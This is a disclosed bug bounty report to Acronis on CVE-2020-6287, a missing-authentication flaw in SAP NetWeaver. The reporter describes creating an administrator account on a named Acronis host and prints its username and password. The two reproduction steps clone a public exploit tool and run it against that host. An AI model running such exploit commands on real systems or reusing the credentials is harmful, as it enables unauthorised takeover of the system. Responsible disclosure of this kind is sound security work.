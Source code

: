# CVE-2020-6287  https://redapi2.acronis.com

## Report Details
- **Report ID**: 1028392
- **URL**: https://hackerone.com/reports/1028392
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-11-06T15:23:10.300Z
- **Disclosed**: 2021-02-16T14:04:26.607Z

## Reporter
- **Username**: savik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
Hi team.

## Summary

CVE-2020-6287  https://redapi2.acronis.com
https://nvd.nist.gov/vuln/detail/CVE-2020-6287

>SAP NetWeaver AS JAVA (LM Configuration Wizard), versions - 7.30, 7.31, 7.40, 7.50, does not perform an authentication check which allows an attacker without prior authentication to execute configuration tasks to perform critical actions against the SAP Java system, including the ability to create an administrative user, and therefore compromising Confidentiality, Integrity and Availability of the system, leading to Missing Authentication Check.


You can check. I created user with role 'Administrator'
```
sapRpoc9846:Secure!PwD7849
```

## Steps To Reproduce


  1. clone https://github.com/chipik/SAP_RECON
  1. `python3 RECON.py -a -H redapi2.acronis.com -P 443 -s`
 

Thanks.

## Impact

administrative user on sap system

## Attachments
No attachments

